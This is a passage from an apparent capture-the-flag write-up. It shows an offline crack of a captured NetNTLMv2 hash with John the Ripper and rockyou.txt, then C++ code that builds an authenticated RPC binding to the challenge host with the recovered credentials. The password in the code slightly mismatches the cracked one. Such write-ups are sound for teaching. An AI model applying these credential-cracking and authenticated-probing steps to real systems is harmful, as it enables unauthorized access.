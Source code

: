 Once in possession of the NTLM response, we can try to crack it offline using the `rockyou.txt` wordlist.

```console
$ john -w=/usr/share/wordlists/rockyou.txt /tmp/hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Insomnia1        (Limited)
[...]
Session completed.
```

And here we go! We get our initial credentials.

### What's next?

Now that we have valid user credentials, the initialization of the binding will be slightly different as we need to provide this information to the RPC runtime.

```cpp
RPC_BINDING_HANDLE BindingHandle = NULL;
RPC_WSTR StringBinding = NULL;
SEC_WINNT_AUTH_IDENTITY_W Identity;
RPC_SECURITY_QOS Qos;

LPCWSTR pwszUsername = L"Limited";
LPCWSTR pwszPassword = L"Insomnia";
    
RpcStringBindingComposeW(NULL, (RPC_WSTR)L"ncacn_http", (RPC_WSTR)L"insobug.insomnihack.ch",
                         (RPC_WSTR)L"8000", NULL, &StringBinding);
RpcBindingFromStringBindingW(StringBinding, &BindingHandle);

Qos.Version = RPC_C_SECURITY_QOS_VERSION_1;
Qos.Capabilities = RPC_C_QOS_CAPABILITIES_DEFAULT;
Qos.IdentityTracking = RPC_C_QOS_IDENTITY_STATIC;
Qos.ImpersonationType = RPC_C_IMP_LEVEL_DEFAULT;

Identity.Domain = (unsigned short*)L".";
Identity.DomainLength = 1;
Identity.User = (unsigned short*)pwszUsername;
Identity.UserLength = (DWORD)wcslen(pwszUsername);
Identity.Password = (unsigned short*)pwszPassword;
Identity.PasswordLength = (DWORD)wcslen(pwszPassword);
Identity.Flags = SEC_WINNT_AUTH_IDENTITY_UNICODE;

RpcBindingSetAuthInfoExW(BindingHandle, (RPC_WSTR)pwszHost, RPC_C_AUTHN_LEVEL_CONNECT,
                         RPC_C_AUTHN_WINNT, &Identity, 0, &Qos);

RpcStringFreeW(&StringBinding);
```

Then, with this updated binding handle, we can start poking around the other remote procedures.
